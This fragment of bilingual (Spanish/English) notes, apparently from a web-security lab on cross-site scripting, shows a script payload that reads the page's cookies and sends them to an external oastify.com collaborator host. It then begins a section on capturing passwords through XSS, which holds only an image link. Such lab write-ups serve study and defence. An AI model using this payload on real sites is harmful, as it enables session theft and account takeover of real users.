 - Injection

```html
<script>
var request = XMLHttpRequest();
request.open('GET','https://gtdnm8w84ckzue4nnih40u07oyurii67.oastify.com/?cookie='+document.cookie);
request.send();
</script>
```

## Captura de contraseñas mediante XSS || Exploiting cross-site scripting to capture passwords

![](/img2/Pasted%20image%2020250726011301.png)
